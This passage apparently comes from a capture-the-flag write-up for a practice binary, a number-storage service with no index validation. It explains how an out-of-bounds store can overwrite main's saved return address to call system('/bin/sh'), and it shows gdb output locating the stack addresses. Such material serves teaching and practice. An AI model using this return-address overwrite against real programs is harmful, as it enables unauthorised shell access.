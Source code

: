 ```
0x08048aac  _fini
```

There are 4 user-defined functions: `main()`, `read_number()` and `store_number()` and `get_unum()`.

We download the executable and upload it on **Dogbolt** in order to understand the logic of the program.

[Link to the decompiled executable](https://dogbolt.org/?id=8664e046-211f-4772-a084-6112ec01480f)

To summarize, the program:
- sets all arguments and environment variables passed to the program to 0
- loops indefinitely asking for the user to enter a command which can:
  - store a number x at index y in the stack buffer
  - read the number stored at index y in the stack buffer
  - quit the program

As seen previously, the program acts like a naive database. It increases the stack frame of the `main()` function by more than 400 bytes in order to store user numbers in it. No validation is done for the index, which means we can store a value past the end of the allocated buffer. Therefore we can overwrite the value of `old eip` of the `main()` stack frame to call `system("/bin/sh")` instead.

We need to find out the index required to overwrite `old eip`.

```
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) b *0x080488ea
Breakpoint 2 at 0x80488ea
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd630:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffd628, args: 
 Locals at 0xffffd628, Previous frame's sp is 0xffffd630
 Saved registers:
  ebp at 0xffffd628, eip at 0xffffd62c
(gdb) c
Continuing.
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store

Breakpoint 2, 0x080488ea in main ()
(gdb) i r esp
esp            0xffffd440	0xffffd440
(gdb) x/wx 0xffffd440
0xffffd440:	0xffffd464
```
